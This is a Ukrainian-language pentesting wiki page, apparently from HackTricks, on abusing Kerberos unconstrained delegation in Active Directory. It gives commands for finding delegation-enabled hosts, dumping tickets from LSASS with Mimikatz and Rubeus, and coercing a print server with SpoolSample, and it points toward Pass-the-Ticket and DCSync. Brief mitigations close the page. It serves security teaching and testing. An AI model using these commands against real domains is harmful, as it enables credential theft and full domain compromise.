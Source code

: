 # Unconstrained Delegation

{{#include ../../banners/hacktricks-training.md}}

## Unconstrained delegation

Це функція, яку адміністратор домену може встановити для будь-якого **комп'ютера** в домені. Тоді, щоразу, коли **користувач входить** на комп'ютер, **копія TGT** цього користувача буде **надіслана всередині TGS**, наданого DC, **і збережена в пам'яті в LSASS**. Отже, якщо у вас є привілеї адміністратора на машині, ви зможете **вивантажити квитки та видавати себе за користувачів** на будь-якій машині.

Отже, якщо адміністратор домену входить на комп'ютер з активованою функцією "Unconstrained Delegation", і у вас є локальні адміністративні привілеї на цій машині, ви зможете вивантажити квиток і видавати себе за адміністратора домену будь-де (підвищення привілеїв домену).

Ви можете **знайти об'єкти комп'ютерів з цим атрибутом**, перевіряючи, чи атрибут [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) містить [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>). Ви можете зробити це за допомогою LDAP-фільтра ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, що і робить powerview:
```bash
# List unconstrained computers
## Powerview
## A DCs always appear and might be useful to attack a DC from another compromised DC from a different domain (coercing the other DC to authenticate to it)
Get-DomainComputer –Unconstrained –Properties name
Get-DomainUser -LdapFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)'

## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem

# Export tickets with Mimikatz
## Access LSASS memory
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
## Doens't access LSASS memory directly, but uses Windows APIs
Rubeus.exe dump
Rubeus.exe monitor /interval:10 [/filteruser:<username>] #Check every 10s for new TGTs
```
Завантажте квиток адміністратора (або користувача-жертви) в пам'ять за допомогою **Mimikatz** або **Rubeus для** [**Pass the Ticket**](pass-the-ticket.md)**.**\
Більше інформації: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Більше інформації про неконтрольовану делегацію в ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Примусова аутентифікація**

Якщо зловмисник зможе **зламати комп'ютер, дозволений для "Неконтрольованої делегації"**, він може **обманути** **сервер друку**, щоб **автоматично увійти** на нього, **зберігаючи TGT** в пам'яті сервера.\
Тоді зловмисник зможе виконати **атаку Pass the Ticket, щоб видавати себе** за обліковий запис комп'ютера сервера друку.

Щоб змусити сервер друку увійти на будь-яку машину, ви можете використовувати [**SpoolSample**](https://github.com/leechristensen/SpoolSample):
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
Якщо TGT отримано від контролера домену, ви можете виконати [**DCSync attack**](acl-persistence-abuse/index.html#dcsync) і отримати всі хеші з DC.\
[**Більше інформації про цю атаку на ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

Знайдіть тут інші способи **примусити аутентифікацію:**


{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### Зменшення ризиків

- Обмежте входи DA/Admin до конкретних служб
- Встановіть "Обліковий запис є чутливим і не може бути делегований" для привілейованих облікових записів.

{{#include ../../banners/hacktricks-training.md}}
